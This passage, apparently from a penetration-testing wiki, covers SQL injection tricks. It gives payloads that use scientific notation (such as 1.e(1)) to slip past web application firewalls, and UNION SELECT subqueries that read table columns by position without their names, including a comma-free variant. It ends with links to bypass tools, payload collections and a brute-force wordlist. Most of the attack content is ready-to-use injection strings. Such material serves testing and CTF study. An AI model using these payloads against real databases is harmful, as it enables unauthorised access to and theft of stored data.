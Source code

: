 ### Scientific Notation WAF bypass

You can find a more in depth explaination of this trick in [gosecure blog](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/).\
Basically you can use the scientific notation in unexpected ways for the WAF to bypass it:

```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```

### Bypass Column Names Restriction

First of all, notice that if the **original query and the table where you want to extract the flag from have the same amount of columns** you might just do: `0 UNION SELECT * FROM flag`

It’s possible to **access the third column of a table without using its name** using a query like the following: `SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;`, so in an sqlinjection this would looks like:

```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```

Or using a **comma bypass**:

```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```

This trick was taken from [https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/)

### WAF bypass suggester tools

{% embed url="https://github.com/m4ll0k/Atlas" %}

## Other Guides

* [https://sqlwiki.netspi.com/](https://sqlwiki.netspi.com)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Brute-Force Detection List

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/sqli.txt" %}



​
